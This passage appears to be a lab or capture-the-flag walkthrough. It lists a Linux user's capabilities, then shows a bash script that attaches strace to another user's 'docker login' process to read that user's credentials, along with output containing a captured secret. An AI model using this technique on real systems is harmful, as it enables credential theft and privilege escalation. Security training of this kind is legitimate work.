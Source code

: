 ```bash
tom_summers@main:~$ capsh --print
Current: =
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
Ambient set =
Current IAB: 
Securebits: 00/0x0/1'b0 (no-new-privs=0)
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=2001(tom_summers) euid=2001(tom_summers)
gid=2001(tom_summers)
groups=2001(tom_summers)
Guessed mode: HYBRID (4)
```

From this output, we can see that `tom_summers_admin` has `cap_sys_ptrace` capability. <br>

Now we gonna craft a bash script to inject into the docker process to grab `rebecca_smith` password.

```bash
#!/bin/bash
sleep 2

# 1. Launch docker login as rebecca_smith
sudo -u rebecca_smith /usr/bin/docker login &

# 2. Find the PID immediately
TARGET_PID=""
while [ -z "$TARGET_PID" ]; do
    TARGET_PID=$(pgrep -u rebecca_smith -f "/usr/bin/docker login")
done

echo "[*] Target process found! PID: $TARGET_PID"
echo "[*] Attaching strace NOW..."

# 3. Attach strace as rebecca_smith
sudo -u rebecca_smith /usr/bin/strace -s 128 -p $TARGET_PID -f -e trace=openat,read
```

```bash
tom_summers_admin@main:/tmp$ ./docker_process_injection.sh 
[*] Target process found! PID: 78330
[*] Attaching strace NOW...
/usr/bin/strace: Process 78330 attached with 8 threads
This account might be protected by two-factor authentication
In case login fails, try logging in with <password><otp>
[pid 78333] read(7, "{\"Username\":\"rebecca_smith\",\"Secret\":\"-7eAZDp9-f9mg\"}\n", 512) = 54
[pid 78333] read(7, 0xc000140836, 970)  = -1 EAGAIN (Resource temporarily unavailable)
[pid 78333] read(7, "", 970)            = 0
[pid 78337] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=78339, si_uid=2003, si_status=0, si_utime=22 /* 0.22 s */, si_stime=8 /* 0.08 s */} ---
Authenticating with existing credentials... [Username: rebecca_smith]
```
